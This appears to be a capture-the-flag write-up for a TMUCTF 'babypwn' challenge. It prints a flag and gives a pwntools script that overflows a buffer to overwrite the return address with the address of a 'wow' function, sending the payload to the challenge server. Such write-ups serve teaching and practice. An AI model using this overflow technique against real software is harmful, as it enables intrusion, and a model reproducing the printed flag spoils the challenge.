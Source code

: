 Flag is <span style="color:red">`TMUCTF{n0w_y0u_4r3_w4rm3d_up}`</span>

# babypwn

<img src="/assets/img/tmu/babypwn.png">

This is a classical buffer overflow challenge with no mitigation involved all you have to do is overwrite the return address with address of function <span style="color:red">`wow`</span> and you will get the flag

```python
from pwn import *

p = ELF("./babypwn")
r = remote("194.5.207.56",7010)

offset = 0x28
payload = b"A"*offset
payload += p64(p.symbols['wow'])

r.recv()
r.sendline(payload)
print(r.recvall())
```
<br>
<img src="/assets/img/tmu/babypwn_sol.png">
